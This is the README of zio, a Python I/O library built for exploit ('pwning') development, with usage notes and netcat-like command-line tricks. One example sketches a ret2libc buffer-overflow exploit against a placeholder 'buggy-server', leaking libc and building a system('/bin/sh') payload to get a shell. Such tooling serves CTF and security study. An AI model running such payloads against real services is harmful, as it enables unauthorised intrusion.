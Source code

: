 
# zio

[![Build Status](https://travis-ci.org/zTrix/zio.png)](https://travis-ci.org/zTrix/zio)

[zio] is an easy-to-use io library for pwning development, supporting an unified interface for local process pwning and TCP socket io.

The primary goal of [zio] is to provide unified io interface between process stdin/stdout and TCP socket io. So when you have done local pwning development, you only need to change the io target to pwn the remote server.

The following code illustrate the basic idea.

```python
from zio import *

if debug_local:
    io = zio('./buggy-server')            # used for local pwning development
else:
    io = zio(('1.2.3.4', 1337))           # used to exploit remote service

io.write(your_awesome_ropchain_or_shellcode)
# hey, we got an interactive shell!
io.interact()
```

## Advantage

 - Self contained single file installation, no extra dependency required. Copy it as you go and fire with no pain even without internet access.
 - Support both python2 and python3, no need to worry about the python version installed on some weired jump server provided by unknown.
 - Easy to learn and use.

## License

[zio] use [SATA License](LICENSE.txt) (Star And Thank Author License), so you have to star this project before using. Read the [license](LICENSE.txt) carefully.

## Working Environment

 - Linux or OSX
 - Python 2.6, 2.7, 3

for windows support, a minimal version(socket-io only) [mini_zio](./mini_zio.py) is provided.

## Installation

This is a single-file project so in most cases you can just download [zio.py](https://raw.githubusercontent.com/zTrix/zio/master/zio.py) and start using.

pip is also supported, so you can also install by running 

```bash
$ pip install zio
```

## Examples
 
```python
from zio import *
io = zio('./buggy-server')
# io = zio((pwn.server, 1337))

for i in range(1337):
    io.writeline('add ' + str(i))
    io.read_until('>>')

io.write(b"add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + "A" * 49 + "\nshow\n")
io.read_until(b'A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = b'A' * 64 + l32(libc_system) + b'JJJJ' + l32(libc_binsh)
io.write(b'info ' + payload + b"\nshow\nexit\n")
io.read_until(b">>")
# We've got a shell;-)
io.interact()
```

## Document

### bytes vs unicode

zio works at `bytes` level. All params and return value should be bytes. (Although some methods support unicode for compatibility and fault tolerance)

The recommended practice is to use b'xxx' everywhere, which is supported by both python2 and python3 without ambiguity.

### about line break and carriage return

Just don't read b'\n' or b'\r', use `read_line()` instead

### Play with cmdline

Act like netcat

```
$ printf 'GET / HTTP/1.0\r\n\r\n' | ./zio.py baidu.com 80
```

Unhex

```
$ echo '3334350a' | ./zio.py -d unhex -w none -r none -i pipe -o pipe --show-input=0 cat
345
```

hexcat some file

```
$ cat somefile | ./zio.py -e hex -w none -r none -i pipe -o pipe --show-input=0 cat
```

show file in string repr

```
$ cat somefile | ./zio.py -e repr -w none -r none -i pipe -o pipe --show-input=0 cat
```

log vim key sequences and underlying io

```
$ zio --debug=zio.log vim
```

### Other fun usage

Talk with vim using code.

```
In [1]: from zio import *

In [2]: io = zio('vim', stdin=TTY, stdout=TTY)

In [3]: io.writeline(b'ihello world')
ihello world
Out[3]: 13

In [4]: io.writeline(b'\x1b:w hand_crafted_vim_file.txt')
w hand_crafted_vim_file.txt
Out[4]: 30

In [5]: io.writeline(b':q')
:q
Out[5]: 3

In [6]: io.exit_status()
Out[6]: 0

In [7]: !cat hand_crafted_vim_file.txt
hello world
```

You can even talk with vim for prefix and then interact by hand to continue normal action.

## Thanks (Also references)

 - [pexpect](https://github.com/pexpect/pexpect) I borrowed a lot of code from here
 - [sh](https://github.com/amoffat/sh)
 - python subprocess module
 - TTY related
   - http://linux.die.net/man/3/cfmakeraw
   - http://marcocorvi.altervista.org/games/lkpe/tty/tty.htm
   - http://www.linusakesson.net/programming/tty/

[zio]:https://github.com/zTrix/zio
